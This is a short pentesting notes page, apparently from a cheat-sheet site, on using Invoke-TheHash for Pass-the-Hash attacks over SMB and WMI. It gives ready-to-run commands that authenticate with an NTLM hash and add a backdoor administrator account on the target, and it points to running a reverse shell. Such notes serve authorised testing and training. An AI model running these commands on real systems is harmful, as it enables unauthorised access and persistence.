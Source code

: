 ```yaml
---
title: Invoke-TheHash
author: amandaguglieri
draft: false
TableOfContents: true
tags:
  - windows
  - dump hashes
  - passwords
  - pass the hash attack
---
```

# Invoke-TheHash

Collection of PowerShell functions for performing Pass the Hash attacks with WMI and SMB. WMI and SMB connections are accessed through the .NET TCPClient. Authentication is performed by passing an NTLM hash into the NTLMv2 authentication protocol. Local administrator privileges are not required client-side, but the user and hash we use to authenticate need to have administrative rights on the target computer.


## Installation 

Download Powershell Invoke-TheHash fuctions from github repo:[https://github.com/Kevin-Robertson/Invoke-TheHash](https://github.com/Kevin-Robertson/Invoke-TheHash). 

When using Invoke-TheHash, we have two options: SMB or WMI command execution.

```powershell
cd C:\tools\Invoke-TheHash\

Import-Module .\Invoke-TheHash.psd1
```


## Invoke-TheHash with SMB

```powershell
Invoke-SMBExec -Target $ip -Domain <DOMAIN> -Username <USERNAME> -Hash 64F12CDDAA88057E06A81B54E73B949B -Command "net user mark Password123 /add && net localgroup administrators mark /add" -Verbose
# Command to execute on the target. If a command is not specified, the function will check to see if the username and hash have access to WMI on the target.
# we can execute `Invoke-TheHash` to execute our PowerShell reverse shell script in the target computer.
```

[How to generate a reverse shell](reverse-shells.md).

## Invoke-TheHash with WMI

```powershell
Invoke-WMIExec -Target $machineName -Domain <DOMAIN> -Username <USERNAME> -Hash 64F12CDDAA88057E06A81B54E73B949B -Command  "net user mark Password123 /add && net localgroup administrators mark /add" 
```

[How to generate a reverse shell](reverse-shells.md).